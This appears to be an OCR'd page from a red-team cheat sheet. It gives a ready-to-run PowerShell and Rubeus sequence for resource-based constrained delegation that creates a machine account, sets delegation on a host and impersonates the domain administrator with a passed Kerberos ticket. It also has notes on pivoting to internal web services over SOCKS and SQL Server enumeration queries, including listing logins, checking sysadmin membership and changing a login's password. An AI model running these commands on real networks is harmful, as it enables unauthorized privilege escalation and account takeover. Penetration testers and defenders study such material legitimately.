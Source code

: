 ```powershell

New-MachineAccount -MachineAccount my -Password $(ConvertTo-SecureString '123' -AsPlainText -Force)

ipmo .\Microsoft.ActiveDirectory.Management.dll

Set-ADComputer red09 -PrincipalsAllowedToDelegateToAccount my$ -Server [DC IP] -Verbose

rubeus.exe s4u /user:my$ /rc4:…… /impersonateuser:administrator /msdsspn:CIFS/red09.red.com /ptt
```
### Internal Web Service

If it is not accessible directly, use SOCKS to access it.

Any computer/users' name contain "web", etc.

web05, svc_apache

Send email

Send a document

Execute command

Ping a host

DevOps

JFrog

### SQL Server

#### [Administrative Logins and Users]

sa: Instance Level

dbo: Database level

#### [Database]
```sql
select name from master..sysdatabases;
```
#### [Tables]
```sql
SELECT name FROM master..sysobjects WHERE xtype = ‘U’;
```
#### [Column]
```sql
select name from syscolumns WHERE id = (SELECT id FROM sysobjects WHERE name = 'users')
```
#### [User/login]
```sql
select user_name(); //Server Login Name

select system_user; //Database User Name

select * from master..syslogins;
```
#### [Change Password]
```sql
ALTER LOGIN webapp  WITH PASSWORD = 'Passw0rd';
```
#### [SQL Admin]
```sql
SELECT IS_SRVROLEMEMBER('sysadmin')

SELECT NAME from master..syslogins where SYSADMIN=1;
```